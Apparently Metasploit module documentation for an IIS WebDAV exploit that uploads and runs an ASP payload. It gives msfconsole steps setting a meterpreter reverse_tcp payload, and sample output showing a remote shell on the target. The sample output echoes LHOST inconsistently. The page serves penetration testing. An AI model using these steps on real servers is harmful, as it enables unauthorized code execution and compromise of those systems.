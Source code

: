 ## Description

This module can be used to execute a payload on IIS servers that have world-writeable directories. The payload is uploaded as an ASP script via a WebDAV PUT request. 

**IMPORTANT:** The target IIS machine must meet these conditions to be considered as exploitable:- 
1)It allows 'Script resource access'.
2)It allows Read and Write permission.
3)Supports ASP.

## WebDAV

Web Distributed Authoring and Versioning (WebDAV) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations. WebDAV is defined in RFC 4918 by a working group of the Internet Engineering Task Force.

## Verification Steps

1. Do: ```use exploit/windows/iis/iis_webdav_upload_asp```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set RHOST [IP]```
3. Do: ```set PATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/windows/iis/iis_webdav_upload_asp
msf exploit(iis_webdav_upload_asp) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(iis_webdav_upload_asp) > set RHOST 172.16.176.54
RHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set LHOST 172.16.176.56
LHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set path /upload/test.asp
path => /upload/test.asp
msf exploit(iis_webdav_upload_asp) > exploit

[*] Started reverse handler on 172.16.176.56:4444
[*] Uploading 613830 bytes to /upload/test.txt...
[*] Moving /upload/test.txt to /upload/test.asp...
[*] Executing /upload/test.asp...
[*] Sending stage (770048 bytes) to 172.16.176.54
[*] Deleting /upload/test.asp, this doesn't always work...
[!] Deletion failed on /upload/test.asp [403 Forbidden]

meterpreter > getuid
Server username: JUAN-C0DE875735\IWAM_JUAN-C0DE875735
meterpreter >
```
